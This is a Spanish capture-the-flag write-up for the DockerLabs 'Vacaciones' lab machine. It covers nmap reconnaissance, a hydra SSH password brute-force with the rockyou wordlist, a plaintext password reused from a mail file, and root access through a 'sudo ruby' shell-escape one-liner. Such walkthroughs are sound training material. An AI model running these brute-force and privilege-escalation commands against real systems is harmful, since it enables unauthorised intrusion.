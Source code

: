 # Máquina Vacaciones

Dificultad -> Muy fácil

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

Creador -> @romabri -> [romabri](https://github.com/romabri)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p22,80 172.17.0.2 -oN targeted
________________________________________________
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4116eb546434d169eedcd9219c72a5c1 (RSA)
|   256 f0c42b02503a49a7a234b80961fd2c6d (ECDSA)
|_  256 dfe946319aef0d81311f77e429f5c988 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesnt have a title (text/html).
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Al inspeccionar la web encontramos ese comentario en el código fuente:

![Pasted image 20240425184410](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/1525b762-1c0b-4d91-a142-fc3fed1ae569)

***

## Explotación

Utilizamos hydra con los usuarios **camilo** y **juan** al **ssh**:

```shell
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
------------------------------------------------------------------
[22][ssh] host: 172.17.0.2   login: camilo   password: password1
```

Encontramos las credenciales de camilo -> **camilo:password1**

Nos conectamos como el usuario camilo y estamos dentro !

***

## Escalada de privilegios

Revisamos el supuesto correo que nos indicaba en la web:

```shell
cd /var/mail
cd camilo
cat correo.txt
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb
```

Probamos la contraseña con el usuario **juan** y funciona. -> **juan:2k84dicb** Hemos migrado al usuario **juan**.

Hacemos un **sudo -l**

```shell
sudo -l
---------------------------------
User juan may run the following commands on b078e5dff54b:
    (ALL) NOPASSWD: /usr/bin/ruby
```

Podemos ejecutar **ruby** como el usuario **root**, si no sabemos como abusar de esto, siempre podemos recurrir a [GTFOBins](broken-reference)

```shell
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

```shell
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximo en la máquina.

